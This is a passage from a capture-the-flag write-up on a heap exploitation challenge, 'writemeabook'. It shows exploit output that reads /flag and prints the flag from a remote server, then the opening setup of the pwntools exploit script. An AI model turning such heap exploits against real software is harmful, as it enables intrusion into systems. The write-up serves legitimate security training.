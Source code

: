 ```  
0x7ffe60582c20:   0x7f16218745f0 exit  
0x7ffe60582c28:     b'/flag\x00' b'/flag\x00'  
0xde  
[*] Switching to interactive mode  
Your book has been rewritten!

grey{gr00m1ng_4nd_sc4nn1ng_th3_b00ks!!}  
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb9\x81\x00\x00\x00\xb8\x81\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xb1\x81\x00\x00\x00\x00\x00\x00\x00\xc0\x81\x00\[*]
Got EOF while reading in interactive  
$ exit  
$  
[*] Closed connection to 34.124.157.94 port 12346  
[*] Got EOF while sending in interactive  
```

## Conclusion

That was a nice medium heap challenge, even though that was pretty classic.
You can find the tasks and the exploit
[here](https://github.com/ret2school/ctf/tree/master/2023/greyctf/pwn/writemeabook).

## Annexes

Final exploit (with comments):  
```py  
#!/usr/bin/env python  
# -*- coding: utf-8 -*-

# this exploit was generated via  
# 1) pwntools  
# 2) ctfmate

import os  
import time  
import pwn

BINARY = "chall"  
LIBC = "/home/nasm/Documents/pwn/greycat/writemeabook/dist/libc.so.6"  
LD = "/home/nasm/Documents/pwn/greycat/writemeabook/dist/ld-linux-x86-64.so.2"

# Set up pwntools for the correct architecture  
exe = pwn.context.binary = pwn.ELF(BINARY)  
libc = pwn.ELF(LIBC)  
ld = pwn.ELF(LD)  
pwn.context.terminal = ["tmux", "splitw", "-h"]  
pwn.context.delete_corefiles = True  
pwn.context.rename_corefiles = False  
p64 = pwn.p64  
u64 = pwn.u64  
p32 = pwn.p32  
u32 = pwn.u32  
p16 = pwn.p16  
u16 = pwn.u16  
p8  = pwn.p8  
u8  = pwn.u8

host = pwn.args.HOST or '127.0.0.1'  
port = int(pwn.args.PORT or 1337)

```